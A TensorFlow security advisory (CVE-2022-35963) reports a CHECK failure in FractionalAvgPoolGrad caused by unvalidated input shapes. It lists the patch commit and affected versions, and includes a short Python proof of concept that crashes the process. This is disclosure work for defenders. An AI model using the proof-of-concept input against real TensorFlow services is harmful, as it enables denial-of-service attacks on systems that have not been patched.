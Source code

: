 ## TFSA-2022-095: `CHECK` failures in `FractionalAvgPoolGrad`

### CVE Number
CVE-2022-35963

### Impact
The implementation of `FractionalAvgPoolGrad` does not fully validate the input `orig_input_tensor_shape`. This results in an overflow that results in a  `CHECK` failure which can be used to trigger a denial of service attack.
```python
import tensorflow as tf

overlapping = True
orig_input_tensor_shape = tf.constant(-1879048192, shape=[4], dtype=tf.int64)
out_backprop = tf.constant([], shape=[0,0,0,0], dtype=tf.float64)
row_pooling_sequence = tf.constant(1, shape=[4], dtype=tf.int64)
col_pooling_sequence = tf.constant(1, shape=[4], dtype=tf.int64)
tf.raw_ops.FractionalAvgPoolGrad(orig_input_tensor_shape=orig_input_tensor_shape, out_backprop=out_backprop, row_pooling_sequence=row_pooling_sequence, col_pooling_sequence=col_pooling_sequence, overlapping=overlapping)
```

### Patches
We have patched the issue in GitHub commit [03a659d7be9a1154fdf5eeac221e5950fec07dad](https://github.com/tensorflow/tensorflow/commit/03a659d7be9a1154fdf5eeac221e5950fec07dad).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
